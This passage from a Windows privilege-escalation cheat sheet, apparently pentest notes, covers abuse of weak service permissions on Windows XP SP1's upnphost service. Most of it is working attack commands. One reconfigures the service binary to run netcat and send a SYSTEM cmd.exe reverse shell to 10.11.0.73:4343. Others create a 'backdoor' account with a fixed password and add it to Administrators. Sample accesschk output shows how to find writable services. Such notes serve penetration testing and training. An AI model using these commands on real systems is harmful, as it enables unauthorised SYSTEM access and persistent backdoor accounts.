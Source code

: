 ```powershell
```

#### Example with Windows XP SP1 - upnphost

```powershell
# NOTE: spaces are mandatory for this exploit to work !
sc config upnphost binpath= "C:\Inetpub\wwwroot\nc.exe 10.11.0.73 4343 -e C:\WINDOWS\System32\cmd.exe"
sc config upnphost obj= ".\LocalSystem" password= ""
sc qc upnphost
sc config upnphost depend= ""
net start upnphost
```

If it fails because of a missing dependency, try the following commands.

```powershell
sc config SSDPSRV start=auto
net start SSDPSRV
net stop upnphost
net start upnphost

sc config upnphost depend=""
```

Using [`accesschk`](https://web.archive.org/web/20080530012252/http://live.sysinternals.com/accesschk.exe) from Sysinternals or [accesschk-XP.exe - github.com/phackt](https://github.com/phackt/pentest/blob/master/privesc/windows/accesschk-XP.exe)

```powershell
$ accesschk.exe -uwcqv "Authenticated Users" * /accepteula
RW SSDPSRV
        SERVICE_ALL_ACCESS
RW upnphost
        SERVICE_ALL_ACCESS

$ accesschk.exe -ucqv upnphost
upnphost
  RW NT AUTHORITY\SYSTEM
        SERVICE_ALL_ACCESS
  RW BUILTIN\Administrators
        SERVICE_ALL_ACCESS
  RW NT AUTHORITY\Authenticated Users
        SERVICE_ALL_ACCESS
  RW BUILTIN\Power Users
        SERVICE_ALL_ACCESS

$ sc config <vuln-service> binpath="net user backdoor backdoor123 /add"
$ sc config <vuln-service> binpath= "C:\nc.exe -nv 127.0.0.1 9988 -e C:\WINDOWS\System32\cmd.exe"
$ sc stop <vuln-service>
$ sc start <vuln-service>
$ sc config <vuln-service> binpath="net localgroup Administrators backdoor /add"
$ sc stop <vuln-service>
$ sc start <vuln-service>
```
